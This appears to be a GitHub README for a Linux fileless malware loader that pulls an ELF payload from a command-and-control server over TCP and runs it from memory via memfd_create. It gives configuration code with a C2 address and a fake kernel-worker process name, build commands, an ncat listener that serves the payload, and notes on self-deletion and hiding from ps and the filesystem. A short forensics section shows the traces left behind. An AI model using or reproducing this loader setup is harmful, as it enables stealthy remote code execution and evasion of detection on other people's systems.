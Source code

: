 
## Fileless In-Memory Loader Linux 

This tool implements a fileless, in-memory ELF loader for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a raw ELF payload, and executes it entirely from memory using memfd_create().

> ⚠️ **For educational and authorized use only.** Do not use on systems you do not own or have explicit permission to operate on.

### Key Features
 * Uses memfd_create() to create a memory-backed, executable file descriptor
 * Pulls payload from a configurable C2 IP and port over a socket connection
 * Executes the ELF binary directly from memory via /proc/self/fd/<fd>
 * Applies a fake process name (argv[0]) for stealth in `ps`, `top`, etc.
 * Deletes itself from disk (via unlink("/proc/self/exe")) after execution
 * Leaves no payload or loader trace on the filesystem after startup

### Configuration

Inside `loader.c`, you can configure the following parameters:

```c
const char *C2_IP        = "127.0.0.1";       // C2 IP
const int   C2_PORT      = 1111;              // C2 port
const char *FAKE_PROC    = "[kworker/u!0]";   // Shown in `ps` output
const char *FD_NAME      = "error";          // Shown in `cat /proc/<pid>/maps` as [memfd:error (deleted)]
````

### Usage

1. Compile the Loader

```bash
gcc -o loader loader.c
gcc -o payload.elf test-payload.c
```

2. Start the C2 (e.g., Netcat)

```bash
ncat -lvnp 1111 < payload.elf
```

3. Run the Loader

```bash
./loader
```

If successful:

* The loader deletes itself
* The payload executes in memory
* The process appears with the fake name (`[kworker/u!0]`)
* Nothing is left on disk

## Forensics traces

```bash
$ ps aux | grep kworker
root      1233  0.0  0.0   2196  1200 ?        Ss   13:47   0:00 [kworker/u!0]
root      1235  0.0  0.0   3040  1428 pts/2    S+   13:47   0:00 grep kworker
$ cat /proc/1233/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1025                               /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1025                               /memfd:error (deleted)
00420000-00421000 rw-p 00010000 00:01 1025                               /memfd:error (deleted)
```
